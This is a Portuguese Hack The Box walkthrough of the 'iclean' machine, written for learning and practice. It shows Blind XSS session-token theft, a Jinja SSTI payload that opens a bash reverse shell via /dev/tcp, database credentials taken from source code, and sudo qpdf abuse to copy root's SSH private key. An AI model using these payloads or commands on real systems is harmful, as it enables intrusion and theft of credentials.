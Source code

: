 ```yaml
---
title: Iclean
type: docs
---
```


## Introdução

A máquina **iclean** do Hack The Box apresenta um nível intermediário de
dificuldade. O desafio explora técnicas como Blind XSS, SSTI (Server Side
Template Injection), exposição de credenciais em código-fonte e abuso de
funcionalidades do sistema para escalar privilégios. Durante o writeup, vamos
abordar desde o reconhecimento até o acesso root na máquina.

## Reconhecimento

Iniciamos o reconhecimento com uma varredura de portas utilizando o Nmap,
identificando os seguintes serviços:

```text
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao acessar o serviço web, fomos redirecionados para o domínio `capiclean.htb`.
Adicionamos o domínio no arquivo `/etc/hosts`:

```bash
echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Durante a análise da aplicação, encontramos o endpoint `/quote`, que apresentava
uma mensagem suspeita sugerindo o envio de dados ao time de gerenciamento:

```
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Isso indicava a possibilidade de Blind XSS.

Testamos payloads de XSS para capturar o token de sessão do administrador,
utilizando um servidor HTTP simples para receber os dados:

```bash
python3 -m http.server
```

**Blind XSS:**  
![Blind XSS](blind-xss.png)

Como resultado da exploração, obtivemos o token de sessão do admin:  
![Recebendo o token](get-token.png)

## Acesso Inicial

De posse do token de admin, iniciamos a enumeração de novos endpoints usando o ffuf:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

Descobrimos o endpoint `/dashboard`, acessível apenas com o token de admin.
Adicionamos o cookie no navegador e acessamos o painel.

Dentro da aplicação, seguindo o fluxo, geramos um invoice e encontramos um
endpoint de geração de QR Code.

Durante a análise dos parâmetros, encontramos uma SSTI no parâmetro `qr_link`:

**SSTI:**  
![SSTI](SSTI.png)

Exploramos a vulnerabilidade com o seguinte payload para obter uma shell reversa:

```jinja
{{request|attr("application")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

## Post Exploitation

Com a shell reversa, iniciamos a análise do ambiente comprometido. Explorando o
código-fonte da aplicação, encontramos as credenciais do banco de dados:

```python
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Utilizamos essas credenciais para acessar o MySQL localmente:

```bash
mysql --database capiclean -u iclean -p
```

Enumerando o banco de dados, encontramos hashes de senhas. Conseguimos quebrar a
hash do usuário `consuela`, cuja senha era `simple and clean`.

Com o usuário e senha, acessamos a máquina via SSH:

```bash
ssh consuela@$rhost
```

### Escalação de Privilégios

Após obter acesso SSH como `consuela`, verificamos os comandos disponíveis com sudo:

```bash
sudo -l
```

Identificamos a possibilidade de utilizar o `qpdf`. Supomos que o root também
tivesse SSH configurado e armazenasse a chave privada em `/root/.ssh/id_rsa`.
Exploramos essa situação usando o `qpdf` para extrair a chave privada para um
arquivo acessível:

```bash
sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Com a chave extraída, realizamos o login como root:

```bash
ssh root@$rhost -i root_ssh_key_file
```

Finalmente, acessamos a flag de root:

```bash
cat root.txt
```

## Conclusão

A exploração da máquina **iclean** envolveu técnicas interessantes como Blind
XSS para captura de sessão, SSTI para execução remota de código e uso criativo
do `qpdf` para exfiltrar a chave privada do root. A máquina reforça a
importância de validar a entrada do usuário e proteger credenciais sensíveis.

## Participantes

- [paixao](http://linkedin.com/in/darccau)
